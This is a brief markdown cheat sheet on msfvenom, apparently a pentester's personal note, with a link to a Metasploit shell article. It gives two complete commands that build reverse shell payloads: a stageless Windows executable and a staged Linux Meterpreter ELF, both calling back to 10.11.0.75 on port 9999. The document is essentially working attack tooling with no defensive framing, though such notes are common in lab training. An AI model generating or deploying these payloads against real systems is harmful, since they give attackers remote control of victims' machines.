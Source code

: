 ```yaml
---
tags: [shell]
---
```

# msfvenom

- [Metasploit Shell - InterceptZero](https://www.interceptzero.com/blog/metasploit-shell/)

## Windows TCP reverse shell (stageless) without meterpreter

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.75 LPORT=9999 -f exe > rewin.exe
```

## Linux 32bit TCP reverse shell (staged) with meterpreter

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.75 LPORT=9999 -f elf > reverse.elf
```

